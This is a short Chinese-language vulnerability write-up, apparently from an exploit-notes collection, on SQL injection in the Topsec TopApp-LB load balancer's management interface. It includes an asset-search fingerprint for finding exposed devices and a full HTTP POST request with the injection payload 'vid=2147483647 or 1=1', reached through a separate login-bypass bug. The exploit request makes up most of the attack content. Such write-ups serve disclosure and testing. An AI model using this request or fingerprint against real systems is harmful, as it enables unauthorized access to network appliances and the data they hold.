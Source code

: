 # 天融信 TopApp-LB SQL注入漏洞

## 漏洞描述

天融信负载均衡 TopAPP-LB产品旧版本在管理面存在SQL注入漏洞，具体为在可以访问管理服务情况 下，攻击者通过构造恶意请求，利用系统检查输入条件不严格的缺陷，进一步可获取部分系统本地信息

## 漏洞影响

```
天融信负载均衡TopApp-LB
```

## 网络测绘

```
app="天融信-TopApp-LB-负载均衡系统"
```

## 漏洞复现

利用 **天融信负载均衡TopApp-LB 任意登陆** 使用后台

提交以下数据包



```plain
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: 
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, */*
X-Prototype-Version: 1.6.0.3
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ijqtopbcbmu8d70o5t3kmvgt57
Content-Type: application/x-www-form-urlencoded
Content-Length: 201

t=l&e=0&s=t&l=1&vid=2147483647 or 1=1&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。
```



![](images/202202091922470.png)



![](images/202202091922937.png)



存在SQL盲注